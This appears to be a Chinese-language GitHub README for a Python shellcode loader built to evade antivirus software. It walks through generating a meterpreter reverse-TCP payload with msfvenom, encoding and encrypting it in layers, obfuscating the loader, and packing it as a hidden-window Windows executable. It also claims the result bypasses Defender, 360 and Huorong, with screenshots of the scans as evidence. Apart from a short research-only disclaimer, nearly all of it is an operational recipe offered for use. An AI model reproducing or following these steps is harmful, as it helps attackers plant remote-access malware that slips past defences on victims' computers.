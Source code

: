 # python-shellcode-loader

<a name="ptTMq"></a>
## 简单介绍
免杀方式 msfvenom生成raw格式的shellcode-->base64-->XOR-->AES<br />将python代码缩小并混淆最后生成exe<br />目前过DF、360和火绒  virustotal：7/66过卡巴斯基、迈克菲等
<a name="H2jnt"></a>
## 获取项目
git clone [https://github.com/HZzz2/python-shellcode-loader.git](https://github.com/HZzz2/python-shellcode-loader.git)<br />cd python-shellcode-loader
<a name="CuRMC"></a>
## 生成shellcode
#生成shellcode<br />`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=9999 -f raw > rev.raw`
<a name="rNUTI"></a>
## base64编码shellcode并替换jiami.py中的值
#base64<br />`base64 -w 0 -i rev.raw > rev.bs64`<br />`cat rev.bs64`<br />复制base64的值替换jiami.py中payload       也就是 第二十五行 sc='payload' 
<a name="uXwYU"></a>
## 加密base64并替换main.py中的值
#加密base64后的shellcode<br />`python3 jiami.py`<br />#会生成一个aes-xor.txt的文件，复制文件里的值(经过XOR和AES加密后)<br />复制的值替换main.py中的payload   也就是第四十一行 jiami_sc='payload'
<a name="RhzZp"></a>
## 缩小和混淆py代码
<a name="K5dP3"></a>
### 缩小python代码
`pyminify main.py --output main-mini.py`
<a name="PTqkf"></a>
### 混淆main-mini.py中的python代码
[https://pyob.oxyry.com/](https://pyob.oxyry.com/)  在线混淆<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654524591386-7385c972-05e4-4761-bac3-311ae4ab2b0c.png#clientId=ufd1019e1-55bc-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=531&id=u32a8913b&margin=%5Bobject%20Object%5D&name=image.png&originHeight=664&originWidth=1919&originalType=binary&ratio=1&rotation=0&showTitle=false&size=192572&status=done&style=none&taskId=uf5d03036-4fc8-4141-aec3-77143fc268e&title=&width=1535.2)<br />将混淆后的代码保存到一个文件中，比如文件名为:main-mini-ob.py
<a name="s0SXj"></a>
## 打包成可执行文件exe
#打包成exe<br />`pyinstaller.exe -Fw -i .\setting.ico --key=leslie .\main-mini-ob.py`<br />-F 打包为单文件 -w 不显示窗口   -i ico图标文件  --key  加密字节码的密钥<br />等待打包完成。。。。<br />打包好后的可执行程序在dist目录中
<a name="dr6Hv"></a>
## 流程图
![](https://cdn.nlark.com/yuque/0/2022/jpeg/26697321/1654524239719-d5ff881a-602c-4508-81b8-8e14c0d41595.jpeg)
<a name="SyXYB"></a>
## 检测图
![](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654525156343-d09e4ca2-cf34-4fd0-a214-8429d736233d.png#crop=0&crop=0&crop=1&crop=1&from=url&id=pOHgi&margin=%5Bobject%20Object%5D&originHeight=1017&originWidth=1286&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654525200953-17958e93-4b05-4571-b721-1fa0899cab6f.png#clientId=ufd1019e1-55bc-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=609&id=uc52334d8&margin=%5Bobject%20Object%5D&name=image.png&originHeight=761&originWidth=1286&originalType=binary&ratio=1&rotation=0&showTitle=true&size=152617&status=done&style=none&taskId=uf646b4ab-a4ff-4915-ac9c-247f27f5b44&title=%E7%81%AB%E7%BB%92&width=1028.8 "火绒"
![image](https://user-images.githubusercontent.com/22775890/172209706-1634bd75-7fe4-4844-bf95-bb8e3dea0540.png)

)<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654525256207-e8a9c46a-c6ed-4dbc-9b23-056590331f50.png#clientId=ufd1019e1-55bc-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=742&id=uba33cae1&margin=%5Bobject%20Object%5D&name=image.png&originHeight=927&originWidth=1256&originalType=binary&ratio=1&rotation=0&showTitle=true&size=151849&status=done&style=none&taskId=ubcd89f76-ab00-4621-9849-4980386bb94&title=360%E6%9D%80%E6%AF%92&width=1004.8 "360杀毒")<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654525285242-8ab59c49-ba44-4a08-a61c-8553204b4c6b.png#clientId=ufd1019e1-55bc-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=658&id=uc0ddad1f&margin=%5Bobject%20Object%5D&name=image.png&originHeight=823&originWidth=1260&originalType=binary&ratio=1&rotation=0&showTitle=true&size=199897&status=done&style=none&taskId=uf2de339b-8045-4277-af70-6d0879a609b&title=360%E5%AE%89%E5%85%A8%E5%8D%AB%E5%A3%AB&width=1008 "360安全卫士")<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654525389400-740f14b8-a7d0-49ea-aa96-81f3326ca4aa.png#clientId=ufd1019e1-55bc-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=752&id=u509ce450&margin=%5Bobject%20Object%5D&name=image.png&originHeight=940&originWidth=1908&originalType=binary&ratio=1&rotation=0&showTitle=true&size=103618&status=done&style=none&taskId=ud3c698a7-1fc9-48f1-abdf-20d66f4def9&title=virustotal&width=1526.4 "virustotal")<br />[运行示例.mp4](https://www.yuque.com/attachments/yuque/0/2022/mp4/26697321/1654531695137-0d35f79f-8cbb-4d1c-96a3-ccef4744fb6b.mp4?_lake_card=%7B%22src%22%3A%22https%3A%2F%2Fwww.yuque.com%2Fattachments%2Fyuque%2F0%2F2022%2Fmp4%2F26697321%2F1654531695137-0d35f79f-8cbb-4d1c-96a3-ccef4744fb6b.mp4%22%2C%22name%22%3A%22%E8%BF%90%E8%A1%8C%E7%A4%BA%E4%BE%8B.mp4%22%2C%22size%22%3A9075464%2C%22type%22%3A%22video%2Fmp4%22%2C%22ext%22%3A%22mp4%22%2C%22source%22%3A%22%22%2C%22status%22%3A%22done%22%2C%22download%22%3Atrue%2C%22taskId%22%3A%22u4f7e269d-9214-4e7e-9b21-dc642edf43e%22%2C%22taskType%22%3A%22upload%22%2C%22__spacing%22%3A%22both%22%2C%22id%22%3A%22uf2aa31d4%22%2C%22margin%22%3A%7B%22top%22%3Atrue%2C%22bottom%22%3Atrue%7D%2C%22card%22%3A%22file%22%7D)


https://user-images.githubusercontent.com/22775890/172209225-080c2549-45cc-4135-a907-38738ab42df5.mp4



## 免责声明
仅供安全研究与教学之用，如果使用者将其做其他用途，由使用者承担全部法律及连带责任，本人不承担任何法律及连带责任。











